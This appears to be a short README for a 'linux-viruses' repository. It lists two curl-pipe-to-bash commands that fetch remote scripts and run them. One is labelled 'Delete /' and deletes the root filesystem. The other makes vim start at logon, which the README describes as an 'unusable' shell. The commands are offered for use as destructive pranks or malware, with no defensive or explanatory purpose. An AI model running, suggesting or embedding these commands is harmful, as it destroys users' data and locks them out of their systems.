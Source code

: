 # linux-viruses
Delete /
curl https://raw.githubusercontent.com/30p87/linux-viruses/main/rm_slash | bash


Start vim -y at logon ("unusable" shell)
curl https://raw.githubusercontent.com/30p87/linux-viruses/main/vim | bash
